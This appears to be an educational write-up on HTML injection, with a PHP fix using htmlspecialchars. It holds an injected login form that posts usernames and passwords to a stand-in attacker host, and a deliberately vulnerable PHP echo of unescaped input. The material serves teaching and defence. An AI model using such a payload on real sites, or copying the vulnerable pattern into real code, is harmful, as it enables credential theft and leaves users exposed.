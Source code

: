 # Vulnerabilities

### htmli

##### description  
HTML Injection (HTMLi) is a vulnerability that occurs when an attacker is able to inject HTML code into a web page by exploiting a weakness in the input validation process. This can happen, for example, if a web application does not properly validate user input or if it allows users to submit data that includes HTML tags that can be executed on the page.  
  
Let's say there is a vulnerable web page that allows users to submit comments, which are then displayed on the page without proper validation. An attacker could submit a comment that includes a ```<form>``` tag that is used to collect sensitive information from users, such as their login credentials.  

##### example  
Here is an example of what the injected HTML code might look like:
```html
<p>Thank you for visiting our website. Please login to continue:</p>
<form method="post" action="http://attacker.com/steal">
  <label>Username:</label>
  <input type="text" name="username"><br>
  <label>Password:</label>
  <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

In this example, the attacker has injected a ```<form>``` tag that looks like a legitimate login form. The form is set up to submit the entered username and password to the attacker's website (http://attacker.com/steal) when the user clicks the "Login" button.  

When the user views the page and enters their login credentials, they will unknowingly submit them to the attacker's website instead of the legitimate website. The attacker can then use the stolen credentials to access the victim's account and carry out further attacks.  

##### code of vulnerability
Example of vulnerable code:  
```php
<?php
  $comment = $_POST['comment'];
  echo "<p>You entered the following comment:</p>";
  echo "<p>$comment</p>";
?>
```
In this code, the value of the ```$_POST['comment']``` variable is directly printed onto the page without being properly validated or filtered. This means that an attacker can inject any HTML code they want into the page by submitting a comment that includes HTML tags.  
  
##### fix 
To fix this vulnerability, we need to properly validate and filter the user input before printing it onto the page. Here's an example of how we can do this:  
```php
<?php
  $comment = $_POST['comment'];
  $filtered_comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
  echo "<p>You entered the following comment:</p>";
  echo "<p>$filtered_comment</p>";
?>
```

In this updated code, we use the ```htmlspecialchars``` function to filter out any HTML tags and special characters that could be used to inject malicious code. The ```ENT_QUOTES``` flag is used to ensure that both single and double quotes are properly escaped, and the ```'UTF-8'``` parameter specifies the character encoding to use. This helps prevent HTML injection and other types of code injection attacks.

